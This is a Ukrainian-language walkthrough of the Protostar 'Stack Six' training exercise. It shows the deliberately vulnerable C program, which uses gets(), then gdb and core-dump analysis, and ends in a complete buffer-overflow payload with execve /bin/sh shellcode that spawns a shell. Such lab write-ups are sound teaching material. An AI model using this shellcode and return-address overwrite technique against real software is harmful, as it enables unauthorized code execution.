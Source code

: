 ## [Stack Six](http://exploit.education/protostar/stack-six/)

Stack6 демонструє, що відбувається, коли у вас є обмеження щодо адреси повернення.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Знайдемо буфер стека для переповнення:
```
gdb ./stack6
...
disassemble getpath
```

![Disassemble getpath](img/disassemble_getpath.png)

Компілятор використовує EBP як орієнтир для локальних змінних, що полегшує обчислення. 
Буфер розташований на ```0x4c``` або 76 байта від EBP, тому для перезапису зворотної адреси нам просто потрібно записати ще 4 байти. 
Ми могли б знайти буфер користувача у пам'яті під час тестування таким чином:  
```
ulimit -c unlimited
python -c "print('B' * 80 + 'AAAA')" | ./stack6
...
gdb ./stack6 /tmp/core.11.stack6.1642
...
x/40x $esp-100
```

![Core Dump](img/core_dump.png)

Отже, маємо адресу ```0xbffffс9c```

Якщо спробувати атакувати як раніше, то нічого не вийде, бо у програмі є перевірка значення адреси повернення:  
```python -c "print('\xcc' * 80 + '\xbf\xff\xfc\x9c'[::-1])" | ./stack6``` 

![Bzzzt](img/bzzzt.png) 

#### Duplicate payload  

Можливо, ми зможемо знайти десь у пам'яті адрусу, яка не починається з ```0xbf......```. 
Давайте завантажимо дамп ядра з попереднього прикладу та спробуємо знайти буфер за більш зручною адресою:  
```
gdb ./stack6 /tmp/core.11.stack6.1642
...
info files
...
find /w1 0xb7fde000, 0xb7fe2000, 0x42424242
```

![Pattern found](img/pattern_found.png)

Витративши деякий час на перебір варіантів виявляється, що наш буфер дійсно знаходиться за іншою адресою, ```0xb7fde000```. Отже, маємо:  
```(python -c "print('\x90' * 4 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (80 - 24 - 4) + '\xb7\xfd\xe0\x04'[::-1])"; cat) | ./stack6```  

![Shell test](img/shell_test.png)